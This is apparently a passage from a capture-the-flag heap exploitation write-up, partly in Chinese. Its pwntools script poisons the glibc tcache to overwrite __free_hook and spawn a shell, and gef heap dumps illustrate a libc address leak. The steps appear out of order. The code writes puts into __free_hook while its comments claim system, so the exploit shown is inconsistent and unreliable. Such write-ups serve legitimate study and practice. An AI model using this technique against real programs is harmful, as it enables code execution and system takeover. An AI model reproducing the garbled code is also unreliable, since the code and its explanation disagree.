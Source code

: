 ```python

create(520, b"deadbeef1111".ljust(512, b'b'))  # tcache(0x220) size=5 # this chunk is in idx=0 now


delete(1)  # delete chunk(deadbeef0000) # tcache(0x220) -> chunk(deadbeef0000) -> ...
delete(0)  # delete chunk(deadbeef1111) # tcache(0x220) -> chunk(deadbeef1111) -> chunk(deadbeef0000) -> ...

create(520, b"deadbeef1111".ljust(520, b'b'))  # malloc back chunk(deadbeef1111) from tcache # idx=0
# tcache(0x220) -> chunk(deadbeef0000) -> ...
# cover the fd field of the 1st chunk(deadbeef0000) in tcache into __free_hook
edit(0, b"deadbeef1111".ljust(520, b'b').ljust(0x238, b'\x00') + p64(0x221) + p64(libc.symbols["__free_hook"]))
# tcache(0x220) -> chunk(deadbeef0000) -> __free_hook
gdb.attach(sh)  # gdb


# Step-3: Getshell
create(520, "/bin/sh\0")  # get 1st chunk(deadbeef0000) in tcache # idx=1
# tcache(0x220) -> __free_hook
create(520, p64(libc.symbols["puts"]))  # system # get __free_hook's addr and modify __free_hook to system
# this chunk's addr is __free_hook # __free_hook's value = libc.symbols["system"]


delete(1)  # "/bin/sh\0" chunk'idx=1 # equal to call system("/bin/sh")
# trriger __free_hook: system("/bin/sh")
sh.interactive()

```



# Step-1: Leak Libc using Small Bins

1. create 9个size=544=0x220的chunk
2. delete 7次，填满tcache
3. delete 2次，unsorted bin有两个chunk (0x220, 0x200)，程序用于对比passwd的拿走0x20
4. `create(520, b"deadbeef".ljust(520, b'B'))`: create 1个0x220的chunk。此时`unsorted bin chunk*1(0x1e0)  small_bins[33]: chunk*1(size=0x220)`

此时这个chunk0 (deadbeef标识的) 的len字段为0x4242424242424242，gdb调试时可以看到后面跟着一个0x21的chunk，再后面一个0x221的chunk的fd bk域是libc上的指针。而edit方法是调用puts输出的，所以只需将libc和chunk0之间的地址填充为非空白符，即可leak libc address。

在edit:  `edit(0, b"deadbeef".ljust(0x240, b'B'))`  前：

```python
gef➤  heap chunks
...........
Chunk(addr=0x555556db3000, size=0x220, flags=PREV_INUSE) # !!!! chunk0
    [0x0000555556db3000     64 65 61 64 62 65 65 66 42 42 42 42 42 42 42 42    deadbeefBBBBBBBB]
Chunk(addr=0x555556db3220, size=0x20, flags=PREV_INUSE)
    [0x0000555556db3220     43 72 34 61 74 33 00 00 00 00 00 00 00 00 00 00    Cr4at3..........]
Chunk(addr=0x555556db3240, size=0x220, flags=PREV_INUSE)
    [0x0000555556db3240     b0 3e 5e 34 d6 7f 00 00 b0 3e 5e 34 d6 7f 00 00    .>^4.....>^4....]
Chunk(addr=0x555556db3460, size=0x20, flags=)
    [0x0000555556db3460     43 72 34 61 74 33 00 00 00 00 00 00 00 00 00 00    Cr4at3..........]
Chunk(addr=0x555556db3480, size=0x20, flags=PREV_INUSE)
    [0x0000555556db3480     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db34a0, size=0x20, flags=PREV_INUSE)
    [0x0000555556db34a0     43 72 34 61 74 33 00 00 00 00 00 00 00 00 00 00    Cr4at3..........]
Chunk(addr=0x555556db34c0, size=0x1e0, flags=PREV_INUSE)
    [0x0000555556db34c0     a0 3c 5e 34 d6 7f 00 00 a0 3c 5e 34 d6 7f 00 00    .<^4.....<^4....]
Chunk(addr=0x555556db36a0, size=0x20, flags=)
```
